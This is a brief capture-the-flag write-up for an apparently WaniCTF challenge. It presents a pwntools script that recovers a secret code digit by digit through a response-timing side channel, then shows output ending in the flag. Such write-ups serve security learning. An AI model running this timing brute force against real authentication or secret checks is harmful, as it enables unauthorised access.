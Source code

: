 ```yaml
---
created: 2024-06-22T07:29
updated: 2024-08-05T09:51
solves: 44
points: 264
---
```


It seems that the validation step would take a very  long time, which means its gonna be timing attack!

i.e. measure the time between you sending the data, and the server responding with "Wrong"

```python
from pwn import *
from time import perf_counter

def time_char(ch):
    conn.recvuntil(b"Enter the secret code: ")
    conn.sendline(ch)
    start = perf_counter()
    res = conn.recvline()
    time = perf_counter() - start
    if b'Wrong!\n' != res:
        print(f"Found: {ch}")
        print(f"Time: {time}")
        print(res)
        print(conn.recvall())
        conn.interactive()
        return 0
    return time

conn = remote("chal-lz56g6.wanictf.org", 5000)
conn.recvuntil(b"Enter the cheat code: ")
conn.sendline(b"A"*50)

curr = b''
for j in range(10):
    res = [time_char((curr + str(i).encode()).ljust(10, b'0')) for i in range(10)]
    min_index = res.index(min(res))
    curr+=str(min_index).encode()
    print(f"Current: {curr} {res[min_index]} {res}")
```

```
Current: b'2' 1.0258064000081504
Current: b'24' 0.9410080999950878
Current: b'244' 0.8268128000054276
Current: b'2443' 0.7246176000044215
Current: b'24438' 0.6052523999969708
Current: b'244388' 0.5313083000073675
Current: b'2443889' 0.40315929999633227
Current: b'24438896' 0.28107090000412427
Found: b'2443889630'
Time: 0.17056149999552872
b'Correct!\n'
b'FLAG{t1m!ng_a774ck_1s_f34rfu1}\n'
```
